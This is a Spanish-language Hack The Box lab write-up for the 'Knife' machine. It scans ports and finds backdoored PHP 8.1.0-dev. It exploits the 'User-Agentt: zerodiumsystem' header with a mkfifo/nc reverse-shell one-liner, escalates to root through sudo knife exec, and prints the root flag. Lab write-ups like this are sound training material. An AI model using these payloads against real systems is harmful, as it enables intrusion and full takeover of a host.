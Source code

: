 ```yaml
---
title: HackTheBox - Knife
categories: [Linux]
tags: [HackTheBox, eJPT, Linux]
---
```


<img src="/assets/HTB/Knife/knife.png">

En este post voy a explicar como resolver la máquina Knife de [Hack The Box](https://app.hackthebox.com/machines/347), en la cual vamos a estar tocando un Remote Code Execution mediante la cabezera ```User-Agent``` y luego para la escalada utilizaremos los permisos de la herramienta ```Knife```.

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como vemos, la página tiene los puertos 22 (SSH) y 80 (HTTP) abiertos.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="/assets/HTB/Knife/knife-pagina.png">

Si usamos la herramienta whatweb la cual sirve para recopilar información sobre una aplicación web, vemos que se está utilizando PHP/8.1.0-dev.


```
$ whatweb http://10.10.10.242/

Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], PHP[8.1.0-dev], Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

El problema que hay con esta versión, es que es vulnerable a un Remote Code Execution, ya que un atacante puede ejecutar comandos usando la siguiente cabecera ```User-Agentt: zerodiumsystem("cat /etc/passwd");```

# Reverse Shell
Para ganar acceso a la máquina, nos mandaremos una Reverse Shell explotando la vulnerabilidad anteriormente encontrada.

```
$ curl 10.10.10.242 -H 'User-Agentt: zerodiumsystem("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.3 443 >/tmp/f");'
```

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.242] 52680
bash: cannot set terminal process group (963): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

# Enumeración del sistema

Una vez ganado acceso a la máquina, vemos que somos el usuario ```james```, si hacemos un sudo -l podemos ver que tenemos permiso para ejecutar el programa ```knife``` como ```root``` sin proporcionar contraseña.

```
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

# Escalada de privilegios
Knife tiene un parámetro llamado exec, el cual permite la ejecución de scripts Ruby, les dejaré un ejemplo.

```
$ knife exec -E 'exec "/ruta/del/script"'
```

Sabiendo esto, podemos hacer que el usuario root ejecuta /bin/bash.

```
james@knife:/$ sudo knife exec -E 'exec "/bin/bash"'
root@knife:/home/james# cd
root@knife:/# cat root.txt
126f179b57e1f6d63efc96636a914e6f
```